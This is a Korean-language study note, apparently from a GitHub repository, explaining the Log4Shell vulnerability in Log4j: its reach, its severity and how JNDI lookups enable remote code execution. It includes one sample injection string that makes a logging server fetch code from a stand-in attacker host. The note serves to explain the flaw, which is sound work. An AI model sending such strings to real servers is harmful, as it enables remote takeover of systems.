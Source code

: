 # Log4J & Loh4Shell보안 취약점

https://lead-earthquake-61f.notion.site/CVE-2021-44228-Log4J-a8ce8189a0da48c68e2645dcd949ceb1

https://www.youtube.com/@nomadcoders

애플, 구글, 깃허브, 아마존, 텐선트 등 많은 기업들이 노출되어 있고 캐나다는 4000개의 달하는 국방사이트를 임시 폐쇄했다.

CVSS 취약점 등급에서 10/10 만점을 받았다.

Log4Shell 은 제로데이 RCE 취약점이다.

제로데이란 아직 발견되지 않은 취약점으로 해커만이 취약점을 알고 있는 상황이다. 말 그대로 보완관계자는 이를 해결하기 위해 '제로데이' 해결할 시간이 하루도 안된는 것이다.

알리바바 보안팀에 의해 발견되었는데 최초 발생은 2021.12.01, 발견 시각은 2021.12.09 즉 9일동안 해킹을 당했다는 거다.

![](../img/Log4J%20-%201.webp)

RCE란 Remote Code Execution의 줄임말로 원격 코드 실행을 말한다. 원격으로 내 컴퓨터에서 상대의 컴퓨터를 조작할 수 있는 것을 말한다. 나아가 관리자 권한으로 최상위층 권한으로 조작가능하다.

데이터 정보를 탈취, 수정, 삭제 뿐만아니라 데이터를 잠글 수도 있고 매우매우 크리티컬한 취약점이다.

Log4j 취약점은 또한 범위가 광범위하다. 애플, 테슬라, 구글 같은 대기업에서 모두 취약하다.

그 이유는 Log4j 때문인데 Java에서 매우 자주 쓰이느 패키지다. 근데 Java는 매우 대중적인 언어이므로 범위가 광범위하다는 것이다. 2015 오라클에 따르면 130억개의 기기에서 사용중이라고 발표했다.

즉, 자주 쓰이는 언어 + 자주 쓰이는 패키지 = 크리티컬한 취약점 게다가 원격으로

Log4j 는 회사에서 발생하는 모든 기록을 저장하는 단순한 패키지이다. 기록이라 함은 로그인, 댓글, 업로드 등등 모든 기록을 말한다. 여기서 주의할 것은 단순히 댓글은 신뢰할수 없는 사용자로 인지하고 코드로도 인지하지 않는다. 즉, 신뢰할수 없는 사용자는 접근이 불가능한 것이다.

Log4j 에는 Lookups 라는 기능이 있는데 사용자를 살짝 신뢰한다. 여기서 문제가 발생한 것이다. JNDI가 lookups의 기능이다.

```
${jndi:ldap://attacker.com/a}
```


위와 같은 입력을 보내면 Log4j는 log로 넣고 동시에 해당url을 불러온다. 그 url이 공격자 url 일수도 있는거다. 그 url 뿐만아니라 호스팅 되어있는 코드가 해당 서버에서 실행 될수도 있다.

예시

마인크래프트는 채팅내용을 Log4j로 기록하고 있는데 채팅에 코드를 입력하면 공격이 실행된다.

애플은 ipone에 이름을 기록하는데 이를 코드로 url을 요청하면 벡엔드가 문제를 url 요청했다. 즉, 벡엔드를 조정할 수 있게되는 것

만약 이 코드에 엄청나게 위험한 코드가 들어 있었다면 그건 난리난리가 나는거다.

이처럼 꽤 최근에 벌어진 큰 보안 이슈 였다.